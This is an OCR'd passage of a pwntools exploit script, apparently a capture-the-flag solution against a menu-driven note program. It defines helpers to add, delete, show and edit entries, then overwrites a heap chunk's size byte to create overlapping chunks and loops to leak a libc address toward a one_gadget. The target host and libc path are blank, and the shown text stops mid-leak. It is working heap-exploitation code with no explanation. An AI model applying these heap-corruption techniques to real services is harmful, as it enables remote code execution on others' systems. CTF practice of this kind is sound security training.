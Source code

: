 ```
else:
    p = remote('', 0)
    libc = ELF('')
    one_gadget = 0x0


def add(index, name, content):
    p.sendlineafter("Code: ", "1")
    p.sendlineafter("ID: ", str(index))
    p.sendlineafter("User name: ", name)
    p.sendlineafter("Msg: ", content)

def add2(index, name, content):
    p.sendlineafter("Code: ", "1")
    p.sendlineafter("ID: ", str(index))
    p.sendafter("User name: ", name)
    p.sendafter("Msg: ", content)

def dlt(index):
    p.sendlineafter("Code: ", "2")
    p.sendlineafter("ID: ", str(index))


def show(index):
    p.sendlineafter("Code: ", "3")
    p.sendlineafter("ID: ", str(index))


def edit(index, content):
    p.sendlineafter("Code: ", "4")
    p.sendlineafter("Index: ", str(index))
    p.sendafter("Msg: ", content)

def Pwn():
    for i in range(9):
        add(i, b'aaaa', b'cccc')
    add(11, b'aaaa', b'cccc')
    add(12, b'aaaa', b'cccc')
    add(13, b'aaaa', b'cccc')
    add(14, b'aaaa', b'cccc')

    dlt(4)
    payload = 'a'*0xe0+p64(0)+'\xf1'
    add2(4, b'aaaa', payload)

    dlt(5)
    add(9, b'aaaa', b'cccc')    #0x30 -&gt; 0xf0
    add(10, b'aaaa', b'cccc')   #0xf0


    for i in range(5):
        dlt(i)
    dlt(6)
    dlt(7)

    dlt(10)
    libc_addr = 0
    mod = 1
    for i in range(8):
        edit(9, 'a'*(0x30+i))
        show(9)
        p.recvuntil("Msg: ")
        addr = p.recvuntil(b"\n")
```
